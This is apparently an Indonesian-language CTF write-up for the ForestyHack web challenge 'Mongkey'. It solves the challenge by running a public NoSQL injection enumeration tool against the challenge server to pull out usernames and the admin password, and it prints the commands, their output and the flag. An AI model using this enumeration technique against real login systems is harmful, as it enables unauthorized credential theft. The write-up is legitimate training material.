 # Mongkey
## About The Challenge

<img width="364" alt="Cuplikan layar 2023-06-15 131041" src="https://github.com/Gatottri/CTF-ForestyHack_WriteUP/assets/134616676/655bc567-3513-4e6a-90d7-db1b6eeaf865">


Diberikan sebuah website 'http://103.167.136.89:10002/' dengan tampilan :

<img width="959" alt="Cuplikan layar 2023-06-15 131119" src="https://github.com/Gatottri/CTF-ForestyHack_WriteUP/assets/134616676/6a5119ce-eb4f-4e56-9bed-6c34f3441682">

# Solutions

Dalam challenge kita diharuskan login sebagai admin untuk mendapati flagnya
Dalam challenge juga saya mendapati petunjuk yaitu "Do you know if it is possible to post an array in PHP? I use MongoDB btw"
saya berpikir bahwa ini merupakan sejenis SQL Injection namun dalam bentu mongodb saya berpikir menggunakan tool NosQLI MongoDB injection
menggunakan tool yang saya dapatkan dari [sini](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/tree/master)
setelah mendapatkan file toolnya menggunakan git clone

saya memasukkan perintah, untuk mencari username yang terdapat didalam website :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep username -op login:login
```
saya mendapati bahwa username didalam website ini ada dua yaitu :
```shell
2 username(s) found:
admin
guest
```
![Screenshot from 2023-06-14 00-05-58](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/fa9c6d5e-1656-4975-bdcb-0ec26da559a3)

guest bukanlah username untuk medapatkan flagnya maka saya berasumsi bahwa flag terdapat pada user 'admin', mari kita cari passwordnya dengan perintah :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep password -op login:login
```
setelah tool selesai melakukan tugasnya maka mendapati hasil
```shell
2 password(s) found:
guest
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
![Screenshot from 2023-06-14 00-06-26](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/b5f1edc7-4fb2-4a8e-9968-0823d5b7b5c3)

wow ternyata password untuk user admin adalah flag yang kita cari cari

## Flag
**ForestyHC{reject_humanity_return_to_monke_5543d8}**
